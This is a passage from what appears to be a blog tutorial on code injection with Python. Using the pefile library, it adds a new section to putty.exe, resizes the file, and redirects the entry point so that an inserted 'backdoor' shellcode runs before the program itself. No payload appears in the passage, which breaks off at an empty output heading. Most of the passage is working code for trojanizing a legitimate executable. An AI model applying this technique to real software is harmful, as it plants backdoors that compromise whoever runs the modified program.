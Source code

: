```python
    # Edit the value in the File and Optional headers
    pe.FILE_HEADER.NumberOfSections += 1
    pe.OPTIONAL_HEADER.SizeOfImage = virtual_size + virtual_offset
    pe.write(exe_path)

    # Resize the executable
    # Note: I added some more space to avoid error
    fd = open(exe_path, 'a+b')
    map = mmap.mmap(fd.fileno(), 0, access=mmap.ACCESS_WRITE)
    map.resize(original_size + 0x2000)
    map.close()
    fd.close()

exe_path = "putty.exe"
addSection(exe_path)
```

If we check the result in a random debugger, we should see the new section. At this point, *putty* should run perfectly as we properly added a section header.

<figure class="align-center">
  <img src="{{ site.url }}{{ site.baseurl }}/images/2016-12-29-code-injection-with-python/added-section.png" alt="">
</figure> 

**Note:** Here I used [Immunity Debugger](http://debugger.immunityinc.com/) to get this output.
{: .notice--info}

### Edit the Entry Point

We are good for the section header structure. Now we will edit the entry point of the executable to execute our backdoor before the rest of the code (application).

```python
import pefile

exe_path = "putty.exe"
pe = pefile.PE(exe_path)

number_of_section = pe.FILE_HEADER.NumberOfSections
last_section = number_of_section - 1
new_ep = pe.sections[last_section].VirtualAddress
oep = pe.OPTIONAL_HEADER.AddressOfEntryPoint

print "[*] Original EntryPoint = 0x%08x" % oep
print "[*] New EntryPoint = 0x%08x" % new_ep

# Edit the EP to point to the shellcode
pe.OPTIONAL_HEADER.AddressOfEntryPoint = new_ep
# Write to a new executable
pe.write("putty_mod.exe")
```

**Output**
